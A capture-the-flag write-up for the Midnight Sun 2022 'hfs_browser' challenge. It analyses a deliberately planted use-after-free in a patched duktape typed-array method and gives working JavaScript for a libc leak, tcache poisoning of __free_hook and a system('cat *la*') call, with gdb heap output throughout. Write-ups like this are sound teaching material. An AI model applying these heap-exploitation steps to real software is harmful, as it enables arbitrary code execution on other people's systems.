

hfs_browser -- Midnight Sun CTF 2022 Quals
Solved with @jorge and @s3np41k1r1t0 ar Points: dynamic
Solves: 20
TL;DR
- Find a UAF in the
midnight()method for JS typed arrays - Exploit the UAF to get a libc leak
- Exploit the UAF to perform a tcache poison attack
- Set
__free_hooktosystem - Free a chunk containing
cat *la* - Win
The Problem
We are given a tar file containing the following:
hfs_browser- the binarylibc-2.31.so, libcurl-gnutls.so.4.6.0"- libraries used remotelyreadme.txt- instructions on how to run and debug the binaryduktape.diff- a diff file containing a patch applied by the challenge authors toduktape
hfs_browser
The hfs_browser binary visits a user-provided URL to a JavaScript (JS) file and executes that JS using duktape, a portable and embeddable Javascript engine.
vagrant@ubuntu-focal:~/shared/midnightQ22/hfs/chall$ checksec hfs_browser
[*] '/home/vagrant/shared/midnightQ22/hfs/chall/hfs_browser'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
duktape.diff
In duktape.diff the challenge authors modify functions related to typed arrays and garbage collection. Specifically, they do the following modifications:
- builtins.yaml => add
duk_bi_typedarray_midnightto the builtins with keymidnight - Implements
duk_bi_typedarray_midnightfunction. duk_bi_duktape_object_info=> replace the body withreturn 1;duk_bi_duktape_object_act=> replace the body withreturn 1;duk_bi_duktape_object_gc=> replace the body withreturn 1;duk_bi_duktape_object_fin=> replace the body withreturn 1;duk_bi_duktape_object_enc=> replace the body withreturn 1;duk_bi_duktape_object_dec=> replace the body withreturn 1;duk_bi_duktape_object_compact=> replace the body withreturn 1;duk_heap_mark_and_sweep=> replace the body withreturn 1;
duk_bi_typedarray_midnight
duk_bi_typedarray_midnight is the function called when we call Uint8Array.midnight();. Analyzing it, we discovered that it doesn’t clear the pointer buf->curr_alloc after freeing it, leading to use-after-free (UAF) and double-free vulnerabilities.
DUK_INTERNAL duk_ret_t duk_bi_typedarray_midnight(duk_hthread *thr) {
duk_hbufobj *h_bufobj = NULL;
duk_hbuffer_dynamic * buf = NULL;
h_bufobj = duk__require_bufobj_this(thr);
DUK_ASSERT(h_bufobj != NULL);
DUK_HBUFOBJ_ASSERT_VALID(h_bufobj);
buf = (duk_hbuffer_dynamic*)h_bufobj->buf;
if (buf == NULL) {
return 0;
}
if (buf->curr_alloc != NULL) {
duk_free(thr, buf->curr_alloc); // double free
}
return 0;
}
Debugging
To verify if we indeed have the UAF, we used the instructions in the readme.txt to clone and patch duktape, and compiled it:
$ git clone https://github.com/svaarala/duktape -b v2.5-maintenance
...
$ cd duktape
$ patch -p1 < /path/to/duktape.diff
patching file src-input/builtins.yaml
patching file src-input/duk_bi_buffer.c
patching file src-input/duk_bi_duktape.c
patching file src-input/duk_heap_markandsweep.c
$ python2 util/dist.py
$ cd dist
# add -g to CCOPTS for easy debugging
$ make -f Makefile.cmdline
...
$ ./duk
((o) Duktape 2.5.0 (v2.5.0-dirty)
duk>
And running duk in gdb:
gef➤ b duk_bi_typedarray_midnight # before the free
gef➤ b *duk_bi_typedarray_midnight+46 # after the free
Breakpoint 1 at 0x555555574f17: file duk_bi_buffer.c, line 2818.
duk> var a = new Uint8Array(0x1e0);
= undefined
duk> a;
= [object Uint8Array]
duk> a.midnight();
...
gef➤ heap bins
...
Tcachebins[idx=24, size=0x1a0] count=1 ← Chunk(addr=0x5555555a3c50, size=0x1a0, flags=PREV_INUSE)
Tcachebins[idx=42, size=0x2c0] count=1 ← Chunk(addr=0x5555555a3fe0, size=0x2c0, flags=PREV_INUSE)
...
gef➤ c
...
gef➤ heap bins
...
Tcachebins[idx=24, size=0x1a0] count=1 ← Chunk(addr=0x5555555a3c50, size=0x1a0, flags=PREV_INUSE)
Tcachebins[idx=29, size=0x1f0] count=1 ← Chunk(addr=0x5555555a3df0, size=0x1f0, flags=PREV_INUSE)
Tcachebins[idx=42, size=0x2c0] count=1 ← Chunk(addr=0x5555555a3fe0, size=0x2c0, flags=PREV_INUSE)
...
gef➤ c
duk> a[0] = 0x41;
duk> a[1] = 0x41;
duk> a[2] = 0x41;
duk> a[3] = 0x41;
duk> a.midnight();
gef➤ heap bins
...
Tcachebins[idx=29, size=0x1f0] count=1 ←
Chunk(addr=0x5555555a3df0, size=0x1f0, flags=PREV_INUSE) ←
[Corrupted chunk at 0x41414141] ...
We can also access the fd and bk pointers of freed chunks by indexing the freed array.
Exploitation
Plan
- Leak a libc address using the UAF
- Allocate a chunk at
__free_hookusing Tcache poisoning - Set
__free_hooktosystemorone_gadget - Free a chunk containing
/bin/sh\x00 - Win :D
Libc Leak
We created a chunk with size 0x1000, freed it, and read its contents which contained a libc pointer.
function hex(a) {
var result = "";
for (var i = 7; i >= 0; i--) {
result += ('0' + a[i].toString(16)).slice(-2);
}
return result
}
function alloc_list(sz, chr) {
var arr = [];
for (var i = 0; i < sz; i++) {
arr.push(chr);
}
return arr;
}
big_list = alloc_list(0x1000, 0x41);
big_list_typed = new Uint8Array(big_list); // Create the 0x1000 length chunk
big_list_typed.midnight(); // Frees the typed array
libc_leak_str = hex(big_list_typed);
libc_leak = parseInt(libc_leak_str, 16);
libc_base = libc_leak - 0x1ed350;
Tcache Poison
Many operations influence the heap layout and the bins. Using functions like console.log affected both our leaks, and other operations affected our ability to properly write to the freed chunks.
After a lot of tweaking, we developed working exploit ([pwn.js]({{ “/assets/code/midnightQuals22/hfs_browser/pwn.js” | relative_url }})) with the following steps:
1. Allocate a chunk of size 0x1e0 (we chose 0x1e0 since the Tcache for this size was already populated, preventing problems with the chunk counter)
chunk = new Uint8Array(0x1e0);
2. Free the chunk
chunk.midnight();
Tcachebins[idx=29, size=0x1f0] count=2 ←
Chunk(addr=0x4c9a80, size=0x1f0, flags=PREV_INUSE) ←
Chunk(addr=0x4c5960, size=0x1f0, flags=PREV_INUSE)
3. chunk->fd = &__free_hook
free_hook = libc_base + 0x1eee48;
free_hook_str = free_hook.toString(16);
chunk[5] = parseInt(free_hook_str.substring(0, 0 + 2), 16);
chunk[4] = parseInt(free_hook_str.substring(2, 2 + 2), 16);
chunk[3] = parseInt(free_hook_str.substring(4, 4 + 2), 16);
chunk[2] = parseInt(free_hook_str.substring(6, 6 + 2), 16);
chunk[1] = parseInt(free_hook_str.substring(8, 8 + 2), 16);
chunk[0] = parseInt(free_hook_str.substring(10, 10 + 2), 16);
Tcachebins[idx=29, size=0x1f0] count=2 ←
Chunk(addr=0x4c9a70, size=0x1f0, flags=PREV_INUSE) ←
Chunk(addr=0x7ffff7ddfe48 /* &__free_hook */, size=0x0, flags=! PREV_INUSE)
4. Allocate a chunk and write the command for system (cat *la* worked for our exploit)
chunk2 = new Uint32Array(0x78); // 0x78=0x1e0/4, since we are now using Uint32Array (for no particular reason)
chunk2[1] = 0x2a616c2a; // *la*
chunk2[0] = 0x20746163; // cat
Tcachebins[idx=29, size=0x1f0] count=1 ←
Chunk(addr=0x7ffff7ddfe48, size=0x0, flags=! PREV_INUSE) ...
5. Allocate the final chunk (malloc will return &__free_hook)
target = new Uint32Array(0x78);
target[0] = system; // lower 32 bits of system
target[1] = system_upper; // higher 32 bits of system
6. Free chunk2 containing cat *la*
chunk2.midnight() // free the chunk, calling `system("cat *la*")`

Running on the server got us the flag: midnight{c4nt_h4v3_Us3_4ft3r_fr33s_1f_yoU_d0nt_fr33}